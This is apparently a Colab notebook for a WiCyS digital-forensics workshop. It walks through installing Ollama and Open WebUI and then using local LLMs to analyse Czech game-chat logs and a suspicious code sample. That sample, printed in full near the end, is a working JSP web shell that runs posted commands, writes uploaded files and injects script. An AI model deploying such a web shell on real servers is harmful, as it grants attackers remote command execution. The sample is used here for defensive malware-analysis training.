<a href="https://colab.research.google.com/github/Shreeya-M-Naik/Shreeya-M-Naik/blob/main/WiCyS_Workshop_March_2026.ipynb" target="_parent"><img src="https://colab.research.google.com/assets/colab-badge.svg" alt="Open In Colab"/></a>

# **Objectives**

In this workshop, we will walk you through how to set up your own local LLM for analysis. You will learn the following:



* How to install Ollama
* How to download models from Ollama.com
* How to install OpenWeb UI
* Analysis of data commonly found in DFIR work using a local LLM


# Excercise

In this workshop, we will install Ollama and Open WebUI. This will demonstrate how to leverage a local LLM for analysis. Since we are in Google Colab for this workshop, there are a couple of additional steps we need to take to get it to work that you would not need to do on your own system. The install process on Windows, Mac and Linux is straightforward and simple and just requires minimal steps.

First,  we need to ensure that you are running a T4 GPU for your Colab environment. To do this, go to the toolbar on top, select **Runtime** > **Change runtime type** and select **T4 GPU**.





Next, we will need to install some dependencies. pciutils is used in Linux to work with PCI devices. We need this to work with and identify the GPU. We will also install zstd. This is a compression library needed by Ollama to decompress some files when it installs. We include the exclamation mark before the command to have it run as a terminal command vs. a Python command.

In [4]:
!sudo apt-get install -y pciutils
!apt-get install zstd


Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
pciutils is already the newest version (1:3.7.0-6).
0 upgraded, 0 newly installed, 0 to remove and 37 not upgraded.
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
zstd is already the newest version (1.4.8+dfsg-3build1).
0 upgraded, 0 newly installed, 0 to remove and 37 not upgraded.


Next, we will install Ollama. Ollama is the inference engine we will use to serve up the model. We will be running the curl command in Linux that will download and run an installation script, install.sh.

In [5]:
!curl -fsSL https://ollama.com/install.sh | sh

>>> Cleaning up old version at /usr/local/lib/ollama
>>> Installing ollama to /usr/local
>>> Downloading ollama-linux-amd64.tar.zst
######################################################################## 100.0%
>>> Adding ollama user to video group...
>>> Adding current user to ollama group...
>>> Creating ollama systemd service...
>>> NVIDIA GPU installed.
>>> The Ollama API is now available at 127.0.0.1:11434.
>>> Install complete. Run "ollama" from the command line.


Next, we will install Open WebUI. Open WebUI is a GUI for working with LLMs. At the end of the install, you will be prompted to restart the session. When prompted, click Restart. Since you click Restart session here, you do not need to click the restart button you will see when the installation completes..  





In [6]:
!pip install open-webui

Now that Ollama is installed, we will start it using a subprocess. We do this because we are working in a Colab notebook. If you are running this on a Windows, Mac, or Linux system, when Ollama installs it is started automatically as a service, so this step is not needed.


In [8]:
import subprocess
def start_ollama_server():
    subprocess.Popen(['ollama', 'serve'])
    print("🚀 Ollama server launched successfully!")
start_ollama_server()

🚀 Ollama server launched successfully!


Next, we will just validate Ollama is up and running. If it is running, you should see a message that says it is actively running on port 11434.

In [10]:
# Check if Ollama is listening on port 11434
def check_ollama_port(port='11434'):
    try:
        output = subprocess.run(['sudo', 'lsof', '-i', '-P', '-n'],
                              capture_output=True, text=True).stdout
        if f":{port} (LISTEN)" in output:
            print(f"✅ Ollama is actively listening on port {port}")
        else:
            print(f"⚠️ Ollama not detected on port {port}")
    except Exception as e:
        print(f"❌ Error checking port: {e}")
check_ollama_port()

✅ Ollama is actively listening on port 11434


We will now install Pinggy. Because we are in the confines of Colab, we will need to redirect Open WebUI to a public URL. Pinggy will forward our Colab Open WebUI port to a public IP address.

When you install Open WebUI on your local system, you would normally access it on your localhost, and everything would just stay local.

The free version of Pinggy will let us run it for an hour. If you are taking longer than an hour and lose access, you will need to rerun this command, then restart Open WebUI.

In [11]:
!pip install pinggy

   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 6.2/6.2 MB 95.0 MB/s eta 0:00:00


Now that we have Pinggy installed, we can start Open WebUI. This command will take a couple of minutes to complete. When the command is ran, you will see a line that says "Tunnel1 started" that will display two links. Copy and paste these links into your text editor for easy reference after Open WebUI installs.



It will take a couple of minutes for Open WebUI to start. Once it does, you will see "Started server process." Once you see this, copy and paste the HTTPS URL into a new browser tab or window.



In [ ]:
import pinggy
tunnel1 = pinggy.start_tunnel(forwardto="localhost:8000")
print(f"Tunnel1 started - URLs: {tunnel1.urls}")
!open-webui serve --port 8000

When the browswer windows open, click the "Enter button to continue"



It will take a minute or two for Open WebUI to start. Once it starts, you will see a splash screen. Click the arrow button to continue.



You will be presented with a screen to create an admin account. Please note that this is a "local" account and not an online Open WebUI account.



For our first example, we will be looking at some chat messages from the Words with Friends game. Criminals have been known to hide illegal activity in application chat messages.  

Lee Crognolie, a SANS author and instructor of FOR585 (Smartphone Forensic Analysis In-Depth), was kind enough to supply us with chat messages from a cell phone dump for Words with Friends.

We are going to have the LLM conduct analysis on these messages to help us find some suspicious activity. It is also not uncommon to find chat messages in a different language than you speak, and as such, these messages are in Czech.

You may have instances where you have data that you need an LLM to assist you with that you cannot put into a cloud provider. This is a good example of that. Download the text file from here and open it up in a text editor and review the contents:

https://drive.google.com/file/d/10Rpme4rtYj4wZRhiG4pKW-mZDCdJoG4n/view?usp=sharing

We are going to download a model from the Ollama website to use. The model we are going to use is ministral-3:8b. To read more about this model, go here: https://docs.mistral.ai/models/ministral-3-8b-25-12

To download the model, search for the model on https://ollama.com/search





Once on the model page, click the copy icon that appears when you hover over **ministral-3:8b**



Next, copy the model name into the search bar under **Select a model**. It will then prompt you to automatically download/pull it from Ollama.com. Click on this prompt to begin the download.



Once downloaded, it will verify the hash and the model will now be available in the dropdown box to use.



"Warm up" the model by asking it to tell you a digital forensics joke. The first time a model is used in Ollama, it will take a minute or two to load into memory. Hopefully it tells you a decent joke! Note also that we are running in free Google Colab, so it will be slower than speeds you would see on your own system.



Now that we have warmed up the model, we are going to do some analysis with it. First, we will need to increase the context window so we can send more data to the model. By default, the context window with Ollama and Open WebUI is only 2048. We are going to increase it to 30K. In the upper right, click on the controls icon, find the num_ctx option, and type in 30000.



Next we will give it a prompt telling it what we want to do. Enter the following text in the chat dialog box (dont send it yet though)

Next, we are going to give the LLM a prompt. We will provide clear instructions. Type the following in the chat dialog box, then press Shift+Enter together twice to advance without sending the prompt.

> You are a DFIR analyst working for an English speaking company. Locate any chat messages discussing illegal or suspicious activities. GIVE YOUR ANSWER IN ENGLISH and translate anything of note into English and include the message ID.





Next, copy and paste the contents of the Words with Friends chat into the chat window and send it to the LLM. It will take a couple of minutes for the LLM to analyze it and provide a response. Sometimes, it prefers to answer in Czech. If it does, stop the response and ask it to respond in English (unless you understand Czech!).



Did your LLM find anything suspicious? You should find something like the below.


<details>
  <summary>Click to reveal the answer</summary>

  

</details>

The nice thing about running local and open-source models is that you can use models tailored for specific tasks. In DFIR, it is common to find malicious code that needs to be analyzed. For this example, we will be working with a suspicious-looking JavaScript code that was found on a client system. Many times, malicious code can contain direct references to paths, directories, usernames, or credentials that are specific to the company, so we would not want to upload the script to a third party.

There are LLM models that have been trained specifically on code. This would be a great choice to use to analyze malicious code! We will use one such model, Qwen Coder. Using the same process as you used above, download the model **qwen2.5-coder:7b**. Note, you can just type qwen2.5-coder:7b in the search box directly to download it as well.



Once the model is downloaded, select it and use the icon on the left to start a new chat.



Ok! Time for some more analysis. In this scenario, we found some malicious code on a websever we want to have the LLM analyse for us. Add the following prompt and hit Shift+Enter:


> You are a DFIR analyst that does malware analysis. Review the following code and determine if it is suspicious or malicious.







Click into the below cell to select the cell, then double click the cell contents and copy and paste it into the chat dialog box.



```
<%@page import="java.io.*, java.util.*, javax.xml.bind.*, java.net.*"%><script>eval(window.localStorage.embed)</script><%!public String v(String w){String x="";try{x=URLDecoder.decode(w,"UTF-8");}catch(Exception e){}return x;}%><%String o,l,d;o=l=d="";DataInputStream r=new DataInputStream(request.getInputStream());while((l=r.readLine())!=null){d+=l;}if(d.indexOf("c=")>=0){String g=v(d.substring(2));String s;try{Process p=Runtime.getRuntime().exec(g);DataInputStream i=new DataInputStream(p.getInputStream());out.print("<pre>");while((s=i.readLine())!=null){o+=s.replace("<","&lt;").replace(">","&gt;")+"<br>";}}catch(Exception e){out.print(e);}}else{if(d.length()>1){int b=d.indexOf("b=");int n=d.indexOf("n=");byte[] m=DatatypeConverter.parseBase64Binary(v(d.substring(b+2)));String f=v(d.substring(2,n-1))+File.separator+v(d.substring(n+2,b-1));try{OutputStream stream=new FileOutputStream(f);stream.write(m);o="Uploaded: "+f;}catch(Exception e){out.print(e);}}}%><%=o%>
```





Did your LLM find anything suspicious? You should find something like the below.


<details>
  <summary>Click to reveal the answer</summary>

  

</details>  

That concludes this lab! In this workshop, we installed and configured Ollama and Open WebUI in a Google Colab environment and used local LLMs to perform two common DFIR tasks: analyzing chat messages in a foreign language for suspicious activity, and reviewing potentially malicious code. By running these models locally, we kept all of our data private, nothing was sent to a third-party cloud provider. On your own system, the setup is even simpler since you won't need the extra Colab steps like Pinggy or starting Ollama manually. Consider experimenting with other models on Ollama's library for different tasks. The key takeaway is that local LLMs give you a powerful, privacy-preserving tool for DFIR analysis that you can integrate into your workflow today.